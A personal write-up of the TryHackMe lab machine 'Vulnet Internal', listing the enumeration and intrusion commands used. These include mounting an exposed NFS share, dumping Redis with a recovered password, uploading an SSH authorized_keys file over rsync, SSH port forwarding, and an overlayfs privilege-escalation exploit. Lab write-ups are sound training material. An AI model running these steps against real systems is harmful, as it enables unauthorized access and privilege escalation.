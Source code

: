 # 35. Vulnet Internal 🧭
Names | Details
--------|-----
Source | tryhackme
Level | medium
Os | linux

**Notes :**




## Gaining Access 😉
- smb port 139 open, used enum4linux to get username, flag got on further enum
- port 111 open which running rcpbind [further reference](https://book.hacktricks.xyz/pentesting/pentesting-rpcbind)
- redis database running on default port
- nfs running, which can be mouted using [[#Important commands 🔥]]1
- redis.conf file contains password
- redis to get internal flag [[#Important commands 🔥]]3
- command to list auths `lrange authlist 0 -1` reddis
- used rsync to read uesr.txt [[#Important commands 🔥]]4
- ssh keygen
- Then I renamed my “.pub” file to “authorized_keys” so that way I was able to upload it directly with [[#Important commands 🔥]]5



## Maintaining Access 🥷
- ssh port forwarding [[#Important commands 🔥]] 6
- on Teamcity logs, catalina.out gave me token for login: username blank
- overlayfs found on kernel [here](https://www.rapid7.com/db/modules/exploit/linux/local/overlayfs_priv_esc/)
- refer [here](https://www.exploit-db.com/exploits/39230)

## Important commands 🔥
1. mount nfs
	```
	sudo mount -t nfs 10.10.51.255:/opt/conf conf
	```
2. redis login
	```
	redis-cli -h ip
	AUTH <pass>
	info
	```
3. redis-dump
	```
	redis-dump -h 10.10.51.255 -a B65Hx562F@ggAZ@F
	```
4. rsync
	```
	rsync rsync://rsync-connect@'10.10.51.255'/files/sys-internal/
	rsync -v rsync://rsync-connect@'10.10.51.255'/files/sys-internal/user.txt .
	```
5. uploading ssh with rsync
	```
	rsync -a /home/nms/Desktop/Boxes/vulnetinternal/authorized_keys rsync://rsync-connect@'10.10.51.255'/files/sys-internal/.ssh/
	```
6. port open checking and forwarding with ssh
	```color
	 ss -tno
	 sudo ssh sys-internal@10.10.60.45 -i /home/goliboi/.ssh/id_rsa -L 8111:127.0.0.1:8111
	 scp -i vulnet sys-internal@10.10.239.105:/TeamCity/logs/catalina.out .
	 ```
## Post Exploitation ✴️
- first flag on smb
- reffer [[#Important commands 🔥]]3
- User flag : /home/user
- Root flag : /root/root
## Tips 💡
- just try with sudo 
- smb shares can be listed `smbclient -L //'machine-ip'/ -N`
- check `/ ` last


--------------------------------
**By Nibras Muhammed** 🤓🖥️
